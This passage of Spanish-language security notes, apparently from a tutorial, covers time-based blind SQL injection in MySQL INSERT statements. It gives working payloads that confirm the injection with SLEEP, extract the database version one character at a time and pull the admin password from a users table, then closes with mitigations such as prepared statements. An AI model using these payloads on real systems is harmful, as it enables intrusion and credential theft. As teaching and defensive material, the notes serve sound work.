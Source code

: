 #### 2. SQLi en `INSERT`: Explotación Time-based Blind

Si la inyección en `INSERT` no produce errores visibles ni refleja los datos, se puede recurrir a técnicas time-based.

**Inyección Básica para Confirmar (MySQL):** Si el campo `author_name` es vulnerable: Payload para `author_name`: `atacante_nombre', (SELECT SLEEP(5)), 'comentario_original`); -- ` Si la inserción tarda 5 segundos más, es vulnerable.

**Extraer Versión (MySQL - primer carácter):** Payload para `author_name`: `atacante_nombre', (SELECT IF(ASCII(SUBSTRING(VERSION(),1,1)) = 56, SLEEP(5), 0)), 'comentario_original`); -- ` (Esto prueba si el primer carácter de la versión es '8', cuyo ASCII es 56).

**Verificación Completa de la Versión (ejemplo de tus notas):** Payload para `author_name`: `atacante_nombre', (SELECT SLEEP(5) WHERE VERSION() = '8.0.36-0ubuntu0.22.04.1'), 'comentario_original`); -- ` _Nota: Este payload es muy específico. Es más común iterar carácter por carácter._

**Automatización:** Al igual que con Time-based Blind SQLi en `SELECT`, la exfiltración de datos carácter por carácter se automatiza con scripts (Python) o herramientas como `sqlmap` (que también soporta inyecciones en `INSERT` con la opción `--forms` si detecta un formulario, o especificando el punto de inyección).

**Ejemplo de Exfiltración de Contraseña (carácter por carácter):** Asumimos un `INSERT INTO logs (user_agent, log_message) VALUES ('input_user_agent', 'input_log_message');` Payload para `input_user_agent` (extrayendo primer carácter de contraseña de 'admin'): `hacker_ua', (SELECT IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin' LIMIT 0,1),1,1)) = 97, SLEEP(5), 0) ), 'log_message'); --` (Verifica si el primer carácter de la contraseña del admin es 'a').

### Consideraciones Adicionales

- **Apóstrofes y Comillas:** Presta atención a si la aplicación encierra los valores en apóstrofes (`'`) o comillas dobles (`"`). Tu inyección debe cerrarlas correctamente.
- **Contexto de la Inyección:** Si la inyección es en un valor numérico dentro de un `INSERT`, no necesitarás cerrar comillas, solo romper la lógica numérica e inyectar. `INSERT INTO stats (user_id, visits) VALUES (123, input_visits);` Payload para `input_visits`: `99); --` (si se puede apilar) o `99 + (SELECT CASE WHEN ... THEN SLEEP(5) ELSE 0 END) --` (si se pueden inyectar subconsultas en valores numéricos).

### Mitigaciones

Las mitigaciones son las mismas que para otras SQLi:

1. **Consultas Parametrizadas (Prepared Statements):** La defensa más efectiva.
2. **Validación Estricta de Entradas:** Asegurarse de que los datos se ajustan al tipo y formato esperados.
3. **Mapeo de Entradas a Valores Seguros (ORM):** Usar ORMs correctamente suele prevenir estas inyecciones.
4. **Principio de Mínimos Privilegios:** El usuario de base de datos de la aplicación web no debería tener permisos para acceder a `information_schema` si no es estrictamente necesario, ni para usar `SLEEP()` u otras funciones peligrosas.
